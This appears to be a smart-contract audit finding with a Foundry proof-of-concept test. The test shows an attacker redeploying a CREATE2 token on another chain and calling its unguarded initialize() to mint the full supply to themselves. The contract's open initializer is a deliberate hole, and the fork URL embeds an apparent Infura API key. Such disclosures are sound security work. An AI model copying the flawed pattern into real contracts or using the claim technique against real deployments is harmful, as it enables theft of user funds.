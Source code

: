 ## Proof of Concept
The following test demonstrates the example where funds are sent in an `initialize()` function. Note that the same attack is possible if ownership is allocated this way, or if these values are set to hardcoded values (such as Gnosis Safes) that may be claimable on the other network.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import { Test, console } from "forge-std/Test.sol";
import { SuperchainERC20 } from "@optimism/L2/SuperchainERC20.sol";

interface Create2Factory {
    function deploy(uint256 value, bytes32 salt, bytes memory code) external;
    function computeAddress(bytes32 salt, bytes32 codeHash) external view returns(address);
}

contract SuperchainUSDC is SuperchainERC20 {
    function initialize() external {
        require(totalSupply() == 0, "already initialized");
        _mint(msg.sender, 100_000_000e18);
    }

    function name() public pure override returns (string memory) {
        return "Superchain USDC";
    }
    
    function symbol() public pure override returns (string memory) {
        return "USDC";
    }
}

contract Create2Test is Test {
    Create2Factory CREATE2 = Create2Factory(0x13b0D85CcB8bf860b6b79AF3029fCA081AE9beF2);
    
    function testCreate2Address() external {
        address honest = address(uint160(uint256(keccak256("honest user"))));
        address malicious = address(uint160(uint256(keccak256("malicious user"))));
        
        vm.createSelectFork("https://optimism-mainnet.infura.io/v3/fb419f740b7e401bad5bec77d0d285a5");
        
        // On the original chain, a token is deployed with CREATE2 factory.
        uint before = vm.snapshot();
        bytes memory initCode = type(SuperchainUSDC).creationCode;
        vm.startPrank(honest);
        CREATE2.deploy(0, bytes32(0), initCode);
        SuperchainUSDC honestToken = SuperchainUSDC(CREATE2.computeAddress(bytes32(0), keccak256(initCode)));
        honestToken.initialize();
        assertEq(honestToken.balanceOf(honest), 100_000_000e18);
        
        // On the new chain, a malicious user deploys a token with the same code and claims the assets.
        vm.revertTo(before);
        vm.startPrank(malicious);
        CREATE2.deploy(0, bytes32(0), initCode);
        SuperchainUSDC maliciousToken = SuperchainUSDC(CREATE2.computeAddress(bytes32(0), keccak256(initCode)));
        maliciousToken.initialize();
        assertEq(maliciousToken.balanceOf(malicious), 100_000_000e18);
    }
}
```